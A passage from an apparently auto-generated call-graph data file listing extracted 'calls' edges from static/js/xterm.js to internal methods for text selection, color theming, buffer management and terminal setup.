"clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleIncrementalClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleSingleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleDoubleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectWordAtCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleTripleClick"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseBufferCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectLineAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shouldColumnSelect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseMove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectToWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getMouseEventScrollAmount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "hasWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_dragScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleMouseUp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getCoords"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireEventIfSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireEventIfSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireOnSelectionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleBufferActivate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onTrim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_convertViewportColToCharacterIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_removeMouseDownListeners"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireEventIfSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rightClickSelect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isClickInSelection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectWordAtCursor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_fireEventIfSelectionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "translateBufferLineToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_convertViewportColToCharacterIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isCharWordSeparator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadCell"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getChars"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectToWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getWordAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "areSelectionValuesReversed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_isCharWordSeparator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_selectLineAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getWrappedRangeForLine"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "decorate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "colors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateRestoreColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setTheme"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setTheme"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_setTheme"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "blend"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isOpaque"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "opacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "opacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateRestoreColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "restoreColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restoreColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_restoreColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "modifyColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_updateRestoreColors"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "maxLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "maxLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "recycle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isFull"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "trimStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "shiftElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "fire"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_getCyclicIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toChannels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "ensureContrastRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toChannels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toCss"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createLinearGradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "repeat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "toRgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "relativeLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "onScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "event"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "cols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "rows"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "buffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "options"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "createInstance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "setService"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "scrollToBottom"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "handleUserInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_handleWindowsPtyOptionChange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "markRangeDirty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "writeSync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "writeSync"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "input"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "triggerDataEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "resize"}, {"confidence": "EXTRACTED", "relation": "calls", 